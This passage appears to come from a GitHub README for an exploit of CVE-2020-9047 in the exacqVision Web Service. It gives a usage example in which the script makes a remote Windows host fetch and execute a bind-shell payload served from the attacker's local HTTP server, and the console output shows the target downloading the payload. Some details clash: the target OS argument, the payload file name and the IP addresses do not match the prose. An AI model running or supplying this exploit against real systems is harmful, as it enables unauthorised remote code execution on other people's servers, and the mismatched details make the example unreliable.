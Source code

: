 *Note: Specifying a command as a the PAYLOAD argument is only supported for remote Linux hosts.*

### Usage Example IV: Windows Executable File Payload
To instruct the remote Windows system 10.0.0.33 (`RHOST`) with the exacqVision Web Service password of `asdf1234!@#$` to install/execute a Windows executable payload that is present on the local system 10.0.0.11 (`LHOST`) at absolute file path `/root/demo/calc.exe` (`PAYLOAD`), use the following command syntax.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 CVE-2020-9047.py LINUX 10.0.0.33 -P 'asdf1234!@#$' 10.0.0.11 '/root/demo/shell_bind_tcp.exe'
Target OS: windows Intel(R) Core(TM) i3-3220 CPU @ 3.30GHz
EVWS Version: 9.8.4.149166

Exploitable: YES
Confirm the specified PAYLOAD is compatible with the remote architecture
Press ENTER to continue or CTRL+C to exit

Starting HTTP server on 0.0.0.0:8000
Serving payload from /tmp/tmpgizzpfa4 directory

192.168.57.161 - - [03/Jun/2020 23:25:09] "GET /4kdjekqk HTTP/1.1" 200 -
192.168.57.161 - - [03/Jun/2020 23:25:13] "GET /fp92ecyj.exe HTTP/1.1" 200 -

Removing temporary directory structure /tmp/tmpgizzpfa4
Stopping HTTP server on 0.0.0.0:8000
```

